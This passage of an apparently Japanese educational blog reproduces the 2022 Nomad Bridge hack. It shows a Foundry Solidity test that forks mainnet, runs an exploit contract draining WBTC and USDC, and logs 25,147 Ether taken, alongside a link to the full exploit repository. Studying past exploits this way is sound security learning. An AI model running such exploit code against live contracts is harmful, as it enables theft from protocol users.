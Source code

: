 全体のコードは https://github.com/minaminao/defi-exploits/tree/main/src/20220801_NomadBridge にあります。

Uniswapで不正に取得したトークンをEtherにスワップしています。

この攻撃をテストします。
次のようにWBTCとUSDCを対象としてテストを実行してみます。

```solidity
contract NomadBridgeExploitTest is Test {
    using TypedMemView for bytes;
    using TypedMemView for bytes29;
    using BridgeMessage for bytes29;
    using Message for bytes29;

    address attackerAddress = address(10);
    NomadBridgeExploit exploit;

    ERC20 wbtc = ERC20(0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599);
    ERC20 usdc = ERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

    function setUp() public {
        vm.createSelectFork("mainnet", 15259100);
        exploit = new NomadBridgeExploit();
    }

    function testExploit() public {
        vm.startPrank(attackerAddress, attackerAddress);
        address[] memory tokens = new address[](2);
        tokens[0] = address(wbtc);
        tokens[1] = address(usdc);
        exploit.exploit(tokens);
        emit log_named_uint("attacker's Ether balance", attackerAddress.balance / 1 ether);
        assertTrue(attackerAddress.balance > 0);
        vm.stopPrank();
    }
}
```

以下の結果が得られます。

```
[PASS] testExploit() (gas: 491400)
Logs:
  attacker's Ether balance: 25147
```

25147 Etherを不正に取得できたことがわかります。
最初の攻撃者は1000 Etherだったので、WBTCとUSDCを全て排出するだけでも25倍も差があります。

完成まで結構端折ったのでところどころ疑問は残るかもしれませんが、このようにより効果的な攻撃を実装することを通して、プロトコルやライブラリ、Solidityの知識を学ぶことができます。
